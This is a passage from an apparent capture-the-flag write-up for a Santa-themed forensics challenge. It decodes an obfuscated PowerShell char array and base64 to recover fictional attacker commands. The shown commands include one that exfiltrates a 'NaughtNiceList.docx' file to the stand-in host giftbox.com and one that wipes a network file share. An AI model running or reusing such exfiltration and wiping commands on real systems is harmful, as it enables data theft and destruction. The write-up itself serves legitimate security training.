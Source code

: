  I haven't been able to figure out how to convert this within Azure Data Explorer using KQL, but it's really easy to do in powershell

``` powershell
     PS /> [StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))
     downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file
```

!!! success "Answer"
    giftbox.com 

## Case 6
!!! quote
    Wow! You decoded those secret messages with easy! You're a rockstar. It seems like we're getting near the end of this investigation, but we need your help with one more thing...</br>We know that the attackers stole Santa's naughty or nice list. What else happened? Can you find the final malicious command the attacker ran?

!!! question
    What is the name of the executable the attackers used in the final malicious command?

There is one more powershell command we see in the previous search

<figure markdown>
![netuse](../img/objectives/o12/final.png)
</figure>

Using the same process to decode base64 gives us

```
C:\Windows\System32\downwithsanta.exe --wipeall \\\\NorthPolefileshare\\c$
```
!!! success "Answer"
    downwithsanta.exe

!!! question
    What was the command line flag used alongside this executable?
